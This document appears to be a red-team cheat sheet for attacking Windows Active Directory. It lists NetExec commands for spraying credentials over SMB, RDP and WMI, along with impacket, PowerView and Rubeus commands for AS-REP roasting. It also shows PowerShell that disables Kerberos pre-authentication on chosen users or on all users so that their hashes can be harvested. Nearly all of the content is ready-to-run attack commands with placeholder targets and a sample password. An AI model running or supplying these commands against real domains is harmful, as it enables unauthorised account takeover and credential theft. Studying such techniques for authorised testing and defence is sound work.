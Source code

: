 # ***Spray Creds (NXC)***
***SMB WMI SSH LDAP WINRM***
## Check Password Policy
```shell
net accounts
nxc smb `dc` -u 'user' -p 'pass' --pass-pol
```
## Spray
```shell
# Domain / Local
nxc smb `tip` -d `dom` -u users.txt [ | 'user' ] -p passwords.txt [ | 'pass' ] --continue-on-success [ --no-bruteforce ]
nxc smb `tip` -u users.txt [ | 'user' ] -p passwords.txt [ | 'pass' ] --continue-on-success --local-auth [ --no-bruteforce ]

nxc rdp `tip` -d `dom` -u users.txt -p passwords.txt --continue-on-success [ --no-bruteforce ]

# wmi open/closed
nxc wmi `tip` -u users.txt -p passwords.txt --local-auth [ --no-bruteforce ] # smb open
nxc wmi `tip` -d `dom` -u james -p 'J@m3s_P@ssW0rd!' [ --no-bruteforce ] # smb closed
```
# ***Asreproast***
## impacket / nxc
```shell
# Impacket
impacket-GetNPUsers -dc-ip `dc` `dom`/USER [ -p PASS | -hashes :HASH ] -request [ -format [hashcat|john] ] -outputfile hashes.asreproast [ -debug ]
impacket-GetNPUsers -dc-ip `dc` `dom`/ -request [ -format [hashcat|john] ] -usersfile users.txt [ -k ticket.ccache ] -no-pass [ -debug ]

# NXC
nxc ldap `tip` -u 'user' -p 'pass' --asreproast output.txt
```
## PV / rubeus
```shell
# PowerView
Get-DomainUser -PreauthNotRequired | select UserPrincipalName

# Rubeus
.\Rubeus.exe asreproast /nowrap /format:[hashcat/john] /outfile:hashes.asreproast
```

***targeted Asreproast***
*No Asreproastable Users → **have GenericWrite or GenericAll on a User** → Reset their passwords OR Modify Kerberos pre-auth in UAC → Now ASREPRoast this user*
```shell
# A) Specific user target
Set-DomainObject -Identity <user> -Set @{'userAccountControl'=(Get-DomainUser -Identity <user>).userAccountControl -bor 4194304}

# B) Enable All privously disabled
Get-DomainUser -DoesNotRequirePreAuth $false | ForEach-Object {Set-DomainObject -Identity $_.samaccountname -Set @{'userAccountControl'=$_.userAccountControl -bor 4194304}}
```
